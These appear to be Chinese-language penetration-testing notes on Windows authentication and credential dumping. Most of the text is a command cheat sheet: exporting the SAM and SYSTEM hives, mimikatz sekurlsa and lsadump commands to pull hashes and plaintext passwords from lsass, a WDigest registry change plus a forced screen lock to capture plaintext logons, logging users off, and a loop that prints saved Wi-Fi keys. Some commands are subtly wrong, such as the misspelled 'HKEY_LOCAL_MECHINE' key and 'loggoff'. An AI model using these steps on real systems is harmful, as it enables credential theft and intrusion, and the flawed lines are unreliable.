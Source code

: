 - RDP
  尽量不要在远程连接时选择记住凭证

- SMB 445 139

  - Windows 三大认证

    - 本地认证

    - 网络认证 用的是SMB的NTML协议

    - kerberos认证用于域

- SAM

  - 位于%SystemRoot%\system32\config目录

  - 本地认证流程

    - winlogon.exe

    - 用户输入账号密码

    - lsass.exe

    - 上面的程序做两件事，1.登录成功之后，保留一份到内存2.与SAM文件做对比

  - 导出sam和system文件

    - 1.通过reg命令无工具导出(需要有管理员权限）
      reg save hklm\sam sam.hive
      reg save hklm\system system.hive

    - 2.以管理员身份运行mimikatz，用命令lsadump::sam /sam:sam.hive /system:system.hive

    - 破解方式

      - 1.在线读取sam文件，然后解密，可以在线md5解密，也可以用hashcat解密，本质都是暴力破解

      - 2.在线读取lsass进程，将mimikatz上传到目标机器
        privilege::debug
        sekurlsa::msv获取HASH
        sekurlsa::wdigest通过可逆的方式去内存中读取明文密码
        sekurlsa::Kerberos假如域管理员正好在登录了机器
        sekurlsa::tspkg通过tspkg读取明文密码
        sekurlsa::livessp通过livessp读取明文密码
        sekurlsa::ssp通过ssp读取明文密码
        sekurlsa::logonPasswords通过以上各种方法读取明文密码

    - win2012之后破解方式

      - 修改注册表锁屏
        reg add HKEY_LOCAL_MECHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
        rundll32.exe user32.dll,LockWorkStation

      - query user查询登录

      - 踢下线loggoff ID

    - wifi密码收集
      for /f "[skip](https://so.csdn.net/so/search?q=skip&spm=1001.2101.3001.7020)=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do  @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
